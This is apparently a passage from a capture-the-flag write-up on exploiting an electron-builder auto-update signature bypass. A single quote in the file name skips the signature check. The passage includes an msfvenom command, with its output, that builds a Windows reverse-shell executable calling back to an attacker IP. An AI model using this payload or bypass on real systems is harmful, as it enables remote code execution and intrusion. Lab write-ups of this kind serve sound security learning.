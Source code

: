 The pdf is a quality assurance documentation for the app downloadable on the webpage. 
The interesting part is especially point two, in which is stated all updates placed in any of the `client` folders will be checked and installed.

[![quality_assurance.png](/img/atom/quality_assurance.png)](/img/atom/quality_assurance.png)

There is a vulnerability in electron-builder which is described in [this](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) blogpost. Crafting a malicious yaml and exe, we can bypass the signature check in the install process by triggering a parse error in the signature verification script, placing a single quote in the filename. With this we are able to run an arbitrary exe on the target machine which is in our case a msfvenom reverse shell.

In a first step we create the reverse shell with msfvenom.

```php
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f exe -o gr\\'em.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: gr'em.exe
```

